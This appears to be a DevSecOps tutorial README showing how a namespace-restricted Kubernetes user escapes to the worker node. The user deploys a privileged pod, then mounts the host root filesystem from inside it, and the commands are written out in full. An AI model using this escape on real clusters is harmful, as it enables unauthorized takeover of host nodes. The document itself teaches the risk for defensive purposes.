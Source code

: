 # From a Pod to a Node: The Privileged Escalation Trap

As a DevSecOps professional, it's critical to understand the dangers of misconfigured Security Contexts and how an unprivileged user can escalate privileges to compromise a Kubernetes worker node.

**Learning Objectives**

* Understand what securityContext.privileged is and the impact of its misconfiguration.
* Learn how an unprivileged user can gain privileged access to the worker node.
* Discover how to secure the user namespace and prevent this escalation.


### 1) Simulating an Unprivileged User in the Kubernetes Cluster

In this step, we simulate a common real-world scenario by creating a restricted user ("Tim") with limited access to a specific namespace.

User Profile: "Tim" (Developer/Troubleshooter)

Tim's permissions are scoped to a single namespace to follow the principle of least privilege. Within this namespace, Tim can perform tasks essential for his role, such as:

* Creating, managing, and deleting Pods and Deployments.
* Executing commands inside pods (using kubectl exec).
* Listing and watching resources for monitoring and debugging.

**Key Restriction:** Crucially, Tim does not have cluster-wide administrative rights (e.g., he cannot access Nodes, create ClusterRoles, or view other namespaces). This setup is designed to be secure, but as we will see, a single misconfiguration can render these boundaries ineffective.

This setup provides the initial conditions for our demonstration, showing how even a user with limited namespace access can potentially escalate their privileges.


```yaml
---
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  namespace: default  # Change to your desired namespace
  name: devops-role
rules:
- apiGroups: ["apps", ""]
  resources: ["deployments", "pods", "pods/exec"]
  verbs: ["get", "list", "watch", "create", "update", "patch", "delete"]
- apiGroups: [""]
  resources: ["pods/exec"]
  verbs: ["create"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: devops-role-binding
  namespace: default  # Must match the Role's namespace
subjects:
- kind: Group
  name: devops
  apiGroup: rbac.authorization.k8s.io
roleRef:
  kind: Role
  name: devops-role
  apiGroup: rbac.authorization.k8s.io
---
```

### 1) Understend privilege escalation

n this scenario, a user named Tim has restricted access to the Kubernetes cluster. However, he is able to deploy a Pod with a critical security misconfiguration: `privileged: true`. This setting gives the container root-level access to the underlying host node, which is extremely dangerous.

**Dangerous Pod Configuration**

Tim deploys the following Pod, which requests privileged access:

```yaml
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  creationTimestamp: null
  labels:
    run: nginx-pod
  name: nginx-pod
spec:
  containers:
  - image: nginx
    name: nginx-pod
    resources: {}
    securityContext:
      privileged: true
EOF
```

**Attack Demonstration**

Once the Pod is running, an attacker can gain access to its shell and easily escalate their privileges to control the host node.

```bash
# 1. Access the Pod
kubectl exec -it nginx-pod -- /bin/bash

# 2. Create a mount point inside the container
mkdir -p /mnt/worker

# 3. Mount the host's root filesystem
mount /dev/vda1 /mnt/worker

# 4. The attacker can now read (and potentially write to) the host's files.
# For example, reading the host's hostname proves control:
cat /mnt/worker/etc/hostname
```

We have mount root file system of worker-0 and  attacker takes over the host.

### 2)  Lesson Learned

This demonstration highlights a critical security principle: understanding both Kubernetes and Linux security is essential for securing workloads.

Allowing containers to run with privileged access breaks the isolation that containers are designed to provide. It grants the container the same capabilities as the root user on the host machine, making privilege escalation trivial.

In a future topic, we will discuss specific strategies and tools, such as Pod Security Standards and Admission Controllers, to prevent these kinds of misconfigurations in a Kubernetes environment.

### 3) Demonstration Video
[Watch Demo on YouTube](https://youtu.be/_Zy7Jnh5h8A)

